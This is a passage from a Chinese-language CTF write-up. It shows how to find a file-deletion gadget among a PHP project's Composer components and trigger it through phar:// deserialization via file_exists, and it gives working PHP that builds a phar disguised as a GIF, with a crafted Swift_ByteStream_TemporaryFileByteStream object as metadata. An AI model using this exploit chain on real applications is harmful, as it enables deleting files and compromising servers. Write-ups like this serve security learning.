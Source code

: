 ### <a class="reference-link" name="%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A0%E9%99%A4%E5%8F%91%E6%8E%98"></a>反序列化删除发掘

那么去哪里找删除函数呢？

这里发现`composer.json`中提供了大量组件，我们安装一下，然后全局搜索，容易发现有`unlink()`

```` [![](https://p2.ssl.qhimg.com/t01aa25554ba282d7d6.png)](https://p2.ssl.qhimg.com/t01aa25554ba282d7d6.png)

### <a class="reference-link" name="phar%E7%A5%9E%E6%9D%A5%E4%B9%8B%E7%AC%94"></a>phar神来之笔

那最后怎么触发序列化呢？这里用到了我们BlackHat会议演讲的phar://方法

参考这篇文章

```
https://xz.aliyun.com/t/2715
```

我们发现在check这里

[![](https://p4.ssl.qhimg.com/t01a7bfc6006304c6df.png)](https://p4.ssl.qhimg.com/t01a7bfc6006304c6df.png)

是会使用file_exists的，并且path和filename可控！

于是我们尝试构造

```
&lt;?php
    include('autoload.php');
    $a = serialize(new Swift_ByteStream_TemporaryFileByteStream());
    var_dump(unserialize($a));
    var_dump($a);
    $a = preg_replace('//private/var/folders/dm/r80s8lp52bz1rcdhp5h9zlrw0000gn/T/FileByteStream[w]`{`6`}`/', "/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php", $a);
    $a = str_replace('s:77', 's:90', $a);
    $b = unserialize($a);
    $p = new Phar('./skyfuck.phar', 0);
    $p-&gt;startBuffering();
    $p-&gt;setStub('GIF89a&lt;?php __HALT_COMPILER(); ?&gt;');
    $p-&gt;setMetadata($b);
    $p-&gt;addFromString('test.txt','text');
    $p-&gt;stopBuffering();
    rename('skyfuck.phar', 'skyfuck.gif')
?&gt;
```

然后上传后触发

[![](https://p2.ssl.qhimg.com/t01ec95e80ab6594e0d.png)](https://p2.ssl.qhimg.com/t01ec95e80ab6594e0d.png)

最后即可看到flag

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t019f2ab59052f52e6b.png)



## 后记

````